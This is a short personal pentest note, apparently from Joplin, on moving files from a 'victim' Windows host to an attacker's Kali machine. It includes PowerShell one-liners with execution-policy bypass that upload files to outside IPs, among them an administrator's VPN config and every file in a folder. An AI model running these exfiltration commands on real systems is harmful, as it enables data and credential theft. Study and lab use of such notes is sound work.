 Web Server

Download or Upload files by setting up a webserver

From Client(Victim):

# Download: Just turn on webserver in the folder

> python2 -m SimpleHTTPServer 8000
> 
> sudo python3 -m http.server 8001

# Upload:

Turn on the upload server in /var/www/html: The github to get the file is: https://gist.github.com/UniIsland/3346170 

> python3 http-server.py -p 8000 --no-ssl

On the client side, Use powershell commands to send the file

> (New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', $FullPath)
> 
> powershell -nop -exec bypass -c "(New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', 'C:\\Users\\Administrator\\Desktop\\lincoln.lg.ovpn')"

We can also do multiple files in the same folder at one go

> foreach($item in (dir)){ (New-Object System.Net.WebClient).UploadFile('http://192.168.119.168:8000/', $item.FullName)}

If we want to send text, we can use PUT command

> Invoke-RestMethod -Uri "http://127.0.0.1:8000/Hello.txt" -Method PUT -Body "Hello"

# Old upload method:

- Start http server in /var/www/html/:
    - sudo python2 -m SimpleHTTPServer 8001
- Run the following powershell code in the Windows Host:
    - powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://192.168.19.29:8001/upload.php', '<file to="" upload="">')"</file>
- Find the file in Kali under /var/www/uploads/

> powershell -nop -exec bypass Invoke-RestMethod -Uri [http://<*Your Kali IP*>/upload.php](http://10.10.14.29/php/upload.php) -Method Post -Infile '&lt;filename&gt;'

https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9

# UploadServer

python3 -m uploadserver

id: 6542c907ee3d4b659b0fd7588c5dbe48
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2022-01-17T09:41:31.093Z
updated_time: 2022-04-22T02:37:07.810Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-17T09:41:31.093Z
user_updated_time: 2022-04-22T02:37:07.810Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1
